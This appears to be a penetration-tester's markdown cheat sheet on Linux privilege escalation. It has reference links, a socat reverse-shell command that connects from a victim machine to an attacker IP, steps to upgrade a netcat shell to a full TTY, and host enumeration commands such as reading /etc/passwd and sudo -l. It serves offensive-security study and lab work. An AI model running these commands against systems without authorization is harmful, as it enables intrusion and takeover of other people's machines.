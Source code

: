### :panda_face: References Linux privilege escalation

- [g0tmi1k basic linux escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [hacktricks.xyz linux escalation checklist](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)
- [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)


#### :panda_face: Life after Netcat [nc -nvlp 8133]

[pentestMonkey reverse shell cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
```
# go from nc shell to python spawned shell

python -c ‘import pty; pty.spawn(“/bin/sh”)’
```

```

On Kali (listen): socat file:`tty`,raw,echo=0 tcp-listen:4444
On Victim (launch): socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
    # If socat isn’t installed, you’re not out of luck. 
    # There are standalone binaries that can be downloaded from this awesome Github repo:
    https://github.com/andrew-d/static-binaries
```

```
# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>

```

### :panda_face: rough n ready priv esc steps

##### :panda_face: priv escal steps
```
cat /etc/issue
cat /proc/version
hostname
uname -a
searchsploit linux kernel ##.## –exclude=”/dos/”
cat /etc/passwd
id
who
w
sudo -l
ifconfig -a
netstat -antup
arp -e
ps aux
ps aux | grep root
ls -ls /etc/ | grep .conf
```